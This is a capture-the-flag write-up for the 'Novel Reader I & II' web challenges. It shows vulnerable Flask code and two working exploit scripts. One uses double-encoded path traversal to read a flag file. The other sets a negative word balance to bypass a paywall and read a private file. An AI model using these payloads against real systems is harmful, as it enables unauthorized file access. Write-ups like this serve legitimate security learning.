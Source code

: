 # Novel reader I & II

## Challenge Description

We have many fun novels for ya...

## Novel Reader I

### Vunerability Analysis

Upon examining the website's 'read novel' functionality, I noticed a potential exploit in the readNovel function:

```python
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

The key observation was that the function reads any file with a path starting with `public/`.

The `readFile` function is shown below:

```python
def readFile(path):
    f = open(path,'r')
    buf = f.read(0x1000)
    f.close()
    return buf
```

This implementation is susceptible to path traversal attacks.

### Exploit

To exploit this vulnerability, I crafted a script to read the server's files:

```python
import requests

url = "http://3.64.250.135:9000/api/read/public/..%252F../flag.txt"
response = requests.get(url)
print(response.text)
```

## Novel Reader II

The Novel Reader II challenge extends from the previous one, where the objective was to access a longer file.

### Vunerability Analysis

A notable constraint was the limited account balance, insufficient to read the entire file. However, through experimentation, I discovered a loophole that allowed charging negative words to our account. The implementation of the word limit was such that a negative balance, specifically -1 words, permitted access to the entire file.

```python
buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
```

### Exploit

To exploit this vulnerability, I wrote the following script:

```python
import requests

url = "http://3.64.250.135:9000/api/read/public/%2E%2E%252Fprivate/A-Secret-Tale.txt"

session = requests.Session()


set_words_request_response = session.post(
    "http://3.64.250.135:9000/api/charge?nwords=-2")

get_words_balance_request_response = session.get(
    "http://3.64.250.135:9000/api/stats")

print(get_words_balance_request_response.text)


response = session.get(url)
print(response.text)
```
